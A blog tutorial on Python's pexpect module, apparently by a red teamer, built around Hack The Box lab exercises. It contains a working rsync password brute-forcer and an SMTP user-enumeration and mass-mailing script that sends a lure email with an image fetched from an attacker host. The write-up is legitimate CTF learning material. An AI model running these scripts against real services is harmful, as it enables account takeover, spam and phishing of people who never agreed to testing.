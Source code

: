 ```yaml
---
title: "PExpect, the Forgotten Module"
date: 2021-02-20T14:59:00-05:00
draft: false
---
```


The title may be a bit exaggerated, but to be perfectly honest I feel that PExpect, the Python version of standard old [Expect](https://en.wikipedia.org/wiki/Expect), is hardly ever mentioned in the many Infosec personalities I follow when they create an exploit or some sort of python script that interacts with a service or protocol. And that is a total shame, because pexpect is crazy powerful and probably one of the most useful modules I've ever come across. I do see some form of it used in specific exploits however, most notably within the [Pwntools](https://docs.pwntools.com/en/stable/) library. In fact, the syntax is pretty similar, albeit a bit more rudimentary. But PExpect has one big advantage that pwntools doesn't: you probably have it installed already in your default python environment. At least I do, and I'm running Ubuntu Desktop.

PExpect allows you to start up a process with arguments, read from it until a specific line is encountered *or expected*, and send additional arbitrary commands to the process based on its returned value. It's pretty neat! In a pragmatic sense, it can be useful for network engineering where you might have scripts that need to log into a console somewhere and interact with some sort of network device like a router or switch. But from my point of view, the red teamer, it can be used to interact with a non-standard service to issue an exploit or brute forcing mechanism. You can read [all the documetation for it](https://pexpect.readthedocs.io/en/stable/), so instead of duplicating effort I'll just show you the basics of what I use it for.

## Basics

First, to spawn a process, use this:

```python
p = pexpect.spawn("nc 10.20.30.40 25")
```

This starts the netcat binary which connects to a remote SMTP server. You can then send arbitrary data to it.

```python
p.sendline("HELO abc.com")
```

The "sendline()" function will take a string and send it with a newline separator appended to the end. If you don't want to send a newline or send it yourself, use send().

```python
p.send("Some data without a newline")
```

You can then have the program wait until an expected line is sent to the receive buffer:

```python
p.expect("250 debian")
```

The program will block until that exact string is sent to the receive buffer. You can specify multiple possibilities by sending them as a list:

```python
result = p.expect(["250 debian", "Error"])
```

In this way, the variable "result" will contain the index of which expect possibility that it hit. For example, if the "Error" string is hit, the "result" variable will contain the value of 1. If "250 debian" is hit, result will be 0. You can tie this into an if statement:

```python
if result == 1:
    print("Program hit an error!")
else:
    print("We got what we expected!")
```

You can also specify an EOF or a Timeout, similarly -- if the spawned process hits a timeout or the connection is severed:

```python
result = p.expect(["250 debian", "Error", pexpect.EOF, pexpect.TIMEOUT])
```

## Okay. So what?

PExpect has so many possibilities. I've found a lot of success in attempting to write brute-forcer scripts for non-standard protocols. Only after searching did I discover an `rsync` brute forcer script written for nmap (Credit to [Hacktricks](https://book.hacktricks.xyz/brute-force) for that neat one), but when I wrote this for the `Zetta` challenge on Hack The Box, I couldn't find anything to use for it. That said, this is the brute force script I wrote for rsync that connected to a machine via IPv6!

```python
#!/usr/bin/env python3

"""
    This script will attempt to brute force an rsync server
    listening on ipv6. This ordinarily wouldn't work but since
    there isn't any weird timeout issue I'm going to go ahead
    and just brute force the command itself.
"""

import pexpect
import sys

cmd = "rsync -avs rsync://roy@[dead:beef::250:56ff:feb9:7cc4]:8730/home_roy ."
prompt = "Password: "
error = "auth failed"
pass_list = "./passwords.txt"

def try_pass(password):
    """
    This will actually attempt to log in with the password.
    """
    attempt = pexpect.spawn(cmd)
    login = attempt.expect([prompt, pexpect.EOF, pexpect.TIMEOUT])
    if login == 0:
        attempt.sendline(password)
        result = attempt.expect([error, pexpect.EOF, pexpect.TIMEOUT])

        if result == 0:
            return False
        elif result == 1:
            return True
        elif result == 2:
            raise Exception("Timeout")
        else:
            return True
    else:
        raise Exception("EOF or Timeout, machine unreachable?")

def main():
    with open(pass_list, "rb") as f:
        passwords = f.read().splitlines()

    for passw in passwords:
        # need this for rockyou encoding
        this_pass = passw.decode('utf-8')
        sys.stdout.write(f"\rTrying:" + " "*40)
        sys.stdout.write(f"\rTrying: {this_pass}")
        sys.stdout.flush()
        if try_pass(this_pass):
            sys.stdout.write(" "*60)
            sys.stdout.write(f"\rFound! {this_pass}\n")
            break

if __name__ == "__main__":
    main()

```

As you can see, it tries to log in with the one user `roy` and uses every single password in my password list. I believe here I just used `rockyou.txt` but perhaps a more conservative approach would be to collect words from the server with CeWL...but I digress.

Similarly, I also used PExpect to write a mail bomb script for the SneakyMailer challenge box on Hack The Box as well. Ippsec used [SWAKS](http://www.jetmore.org/john/code/swaks/) to do the same thing, and that was probably the better option, but I couldn't resist writing my own mailbomber. I explained [how to do this in Bash](/cheatsheets/advbash), but admittedly this is probably the better way since it doesn't just dump a ton of commands onto the service without waiting for a response. This way it actually waits until it receives a specific line before sending a new directive:

```python
#!/usr/bin/env python3

import pexpect

cmd = "nc 10.10.10.197 25"

# Here is a bunch of statements we can expect from the remote mail server
rec_initialize = "250 debian"
rec_mailfrom = "250 2.1.0 Ok"
rec_mailto = "250 2.1.5 Ok"
rec_mailto_bounce = "Recipient address rejected"
rec_rset = "250 2.0.0 Ok"
rec_data = "354 End data with <CR><LF>.<CR><LF>"
rec_mailok = "250 2.0.0 Ok: queued"

# My list of potential users
with open("./myusers.txt", "r") as f:
    userslist = f.read().splitlines()

# The email contents, don't judge me
payload = """OPEN THIS IMAGE, PLS
<img src="http://10.10.14.15/hifriend.gif">

That's it, thanks."""


def email_spam(userlist, p):
    """
        Will take p as the spawned pexpect object and simply
        loop through the user list and send the email looking
        for potential users.

        It is assumed we are ready to send email at this point
    """
    for user in userlist:
        p.sendline("MAIL FROM: agr0@hi.com")
        p.expect(rec_mailfrom)
        p.sendline(f"RCPT TO: {user}@sneakymailer.htb")
        mailto_res = p.expect([rec_mailto, rec_mailto_bounce])
        if mailto_res == 1:
            print(f"Unknown user: {user}! Skipping...")
            p.sendline("RSET")
            p.expect(rec_rset)
            continue

        print(f"Sending mail to {user}@sneakymailer.htb...")
        p.sendline("DATA")
        p.expect(rec_data)
        p.sendline(payload)
        p.sendline(".")
        p.expect(rec_mailok)
        print("Mail sent!")


def main():
    # Setting it up
    print("Starting up mailsprayer...")

    # Don't bug me with your verbose output
    p = pexpect.spawn(cmd, echo=False)
    p.sendline("HELO blah.com")
    p.expect(rec_initialize)
    print("Opening up the firehose!")
    email_spam(userslist, p)


if __name__ == "__main__":
    main()

```

I can't *not* add my own flair to my code. Sorry not sorry. But you see that I'm spawning a netcat process to connect to the remote mail server on port 25 and executing the directives line by line to send mail. I even found out how to use the `RSET` directive to start a new mail without severing the TCP connection! See, hacking is all about learning new tricks.

## Conclusion

Pwntools has a very similar process interaction mechanism that I've seen a lot of people use instead for similar functionality. While that's totally fine and certainly gets the job done, I feel that using pwntools to accomplish what pexpect can do out of the box is the programming equivalent of hammering a nail to a wall with a sledgehammer.

But I'll get off my soapbox now.